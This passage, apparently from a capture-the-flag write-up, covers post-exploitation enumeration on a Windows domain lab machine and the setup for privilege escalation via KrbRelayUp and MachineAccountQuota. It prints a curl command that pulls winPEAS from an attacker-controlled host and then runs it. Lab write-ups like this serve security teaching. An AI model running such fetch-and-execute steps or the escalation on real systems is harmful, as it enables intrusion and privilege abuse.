 Now that we have a session on the remote host, we'll do a bit of enumeration on the domain computer to see if there are any ways to escalate our privileges.

The root `C:\` drive contains the first user flag as seen below.

```
PS C:\> ls

Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         8/19/2021   6:24 AM                EFI
d-----         6/29/2022   2:43 PM                inetpub
d-----          5/8/2021   8:20 AM                PerfLogs
d-r---         6/29/2022   4:15 PM                Program Files
d-----         6/29/2022   1:28 PM                Program Files (x86)
d-----         6/29/2022   1:41 PM                samples
d-r---         6/29/2022   4:09 PM                Users
d-----         6/29/2022   1:32 PM                Windows
-a----         6/29/2022   3:00 PM             37 user.txt
```

There does seem to be an `inetpub` directory which contains the default IIS website that we saw previously, however we do not have write access to this part of the system meaning we won't be able to exploit it.

Furthermore, there does not seem to be any outstanding program applications on the internal machine that we can exploit, nor any services that are running on an internal port.

At this point, I decided to see if an internal machine scraper such as [WinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS). This should tell us if there are any hidden vulnerabilities that we wouldn't be able to see from an initial glance. 

```
PS C:\temp> curl http://10.8.0.173:9002/winPEASany_ofs.exe -O winPEASany_ofs.exe
curl http://10.8.0.173:9002/winPEASany_ofs.exe -O winPEASany_ofs.exe
PS C:\temp> .\winPEASany_ofs.exe
......
Checking KrbRelayUp
  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#krbrelayup
  The system is inside a domain (BRUNO) so it could be vulnerable.
  You can try https://github.com/Dec0ne/KrbRelayUp to escalate privileges
```

As you'll notice, this should spider the entire filesystem and report any vulnerabilities back to us. The above vulnerability is reported often when I run WinPEAS, however there was something interesting that I found that may we may be able to exploit.

# Privilege Escalation via KrbRelayUp/CLSIDs

One thing you'll notice is that our user currently has a MAQ of 10. A MAQ, or MachineAccountQuota, essentially allows the domain object to create domain computer objects and use them within the domain.
